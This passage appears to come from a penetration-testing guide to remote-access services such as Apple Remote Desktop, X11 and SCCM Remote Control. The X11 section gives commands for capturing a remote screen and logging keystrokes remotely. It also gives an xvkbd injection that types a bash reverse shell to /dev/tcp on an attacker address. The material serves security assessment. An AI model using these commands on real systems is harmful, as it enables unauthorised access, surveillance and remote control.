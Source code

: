 ARD is Apple's graphical remote desktop solution. The service is not listening by default, and in our experience it is not widely deployed.

**Port:** 3283/UDP (v1), 5900/TCP (v2)

**Tools:** Screen Sharing, VNC applications

**Examples:**

- ```
      /System/Library/CoreServices/Screen Sharing.app 
    ```
    
- ```
      vncviewer
    ```
    

* * *

## Xorg

The Xorg Foundation create and maintain's the widely deployed X11 windowing system used in most *nix environments. Most administrators are aware that the client-server model allows forwarding of X-sessions over SSH tunnels; however, when configured to allow TCP sessions, the X-session can be attached to remotely. The default X11 configuration was changed to disallow TCP sessions several years ago, but we still see it from time to time. If you see TCP 6000+N open, you can likely execute code on that machine or remotely log keystrokes.

**Port:** 6000+N/TCP, (or 22/TCP via SSH)

**Tools:** xspy, xwatchwin, xwd, xvkbd, ssh, MSF, xrdp.py

**Example screenshot:**

```
xwd -root -screen -silent -display 192.168.37.146:0 > screenshot.xwd 
```

**Example keyboard injection:**

```
xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display 192.168.37.146:0 -text "/bin/bash -i > /dev/tcp/192.168.37.101/8000<&1 2>&1\r" 
```

**Example remote keylog:**

```
xspy 192.168.1.1
```

* * *

## System Center Configuration Manager (SCCM) Remote Control

SCCM is often used in enterprise networks to handle patch deployment for workstations and servers, as well as help facilitate installation of applications to groups of managed systems. When configured through the administration console, managed systems can be configured to start a remote control service (System Center Remote Control). While it provides similar functionality to RDP, it does not leverage Terminal Services, and in certain configurations can allow full control of a remote system without alerting logged-on users to the session hijack.
